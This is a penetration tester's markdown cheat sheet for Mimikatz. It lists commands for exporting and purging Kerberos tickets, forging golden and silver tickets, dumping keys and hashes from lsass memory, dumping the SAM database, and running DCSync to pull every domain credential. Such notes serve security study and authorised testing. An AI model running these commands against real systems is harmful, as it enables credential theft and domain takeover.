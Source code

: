 ```yaml
---
category: Uncategorized
tags: []
---
```

- Used to harvest credentials from a windows machine.
- Has two additional components:
	- `Mimidrv`: driver that interacts with windows kernel
	- `Mimilib`: Bypass applocker, auth package/SSP etc.
- Runs with:
	- `Administrator` with `Privilege::debug` mode
	- `SYSTEM` privilege

# Kerberos
### ask
```bash
kerberos::ask
```
### list
- Lists or exports TGTs and STs from the current session
```powershell
kerberos::list # Lists the tickets
kerberos::list /export # Export the tickets to files
```
### purge
- purge all TGTs and STs from the current session.
```powershell
kerberos::purge
```
### tgt
- Prints information about the TGT from current session
```powershell
kerberos::tgt
```
### golden
[Golden Tickets](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/Initial%20Foothold/Kerberos.md#Golden%20Tickets)
- Create golden tickets from krbtgt's NTLM hash or Kerberos keys.
### silver
- Create silver ticket from a service's NTLM hash or Kerberos keys.

# SekurLSA
Dumps keys, password hashes, pin codes from protected memory of lsass.exe proccess.
Rights required:
- SYSTEM
- Administrator with debug privilege (privilege::debug)
### backupkeys
- get backup master keys.
```powershell
sekurlsa::backupkey
```
### credman
- Lists credential manager
```powershell
sekurlsa::credman
```
### dpapi
[DPAPI](DPAPI.md)
- Lists cached master keys
```powershell
sekurlsa::dpapi
```
### ekeys
Lists kerberos encryption keys
```powershell
sekursla::ekeys
```
# LSAdump
### sam
- Dumps the sam database directory from memory or offline using the sam and system registry hives.
```powershell
# On target machine
lsadump::sam
# Using system and sam hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
### dcsync
- Perform dc-sync on the domain controller to dump ntds credentails, keys etc.
```powershell
# Dump credential of a specidic user
lsadump::dcsync /domain:mydomain.local /user:dr.dragon
# Dump all credentials
lsadump::dcsync /domain:mydomain.local /all
```